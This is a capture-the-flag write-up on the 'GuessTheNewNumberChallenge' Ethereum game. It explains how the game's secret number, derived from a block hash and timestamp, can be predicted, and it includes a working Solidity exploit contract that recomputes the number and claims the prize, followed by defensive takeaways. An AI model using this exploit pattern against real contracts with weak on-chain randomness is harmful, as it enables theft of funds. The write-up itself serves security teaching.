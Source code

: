 # GuessTheNewNumberChallenge: Summary

## Intention

A game where players guess a secret number, generated using a previous block's hash and timestamp, to win Ether.

## Vulnerability

The contract uses publicly accessible blockchain data to generate the secret number, making it exploitable.

## Exploit

An attacker can create a contract, `GuessTheNewNumberExploit`, which interacts with the vulnerable contract by calculating the secret number using the same approach as the original contract. By calling the `guess()` function with the calculated secret number and sending the required Ether, the attacker can successfully exploit the vulnerability and claim the prize.

```solidity
contract GuessTheNewNumberExploit {
    GuessTheNewNumberChallenge public challengeContract;

    function GuessTheNewNumberExploit(address challengeAddress) public payable {
        challengeContract = GuessTheNewNumberChallenge(challengeAddress);
    }

    function exploit() public payable {
        require(msg.value == 1 ether);
        uint8 secretNumber = uint8(
            keccak256(block.blockhash(block.number - 1), now)
        );

        // Call guess() function on the challenge contract with the secret number and send 1 Ether
        challengeContract.guess.value(1 ether)(secretNumber);

        // Transfer the remaining balance back to the sender
        msg.sender.transfer(address(this).balance);
    }

    // Fallback function to receive Ether
    function() public payable {}
}

## Takeaways

- Don't use public data for secret values in contracts.
- Be aware that attackers can deploy contracts to exploit vulnerabilities.
- Ensure security through audits and testing.

```
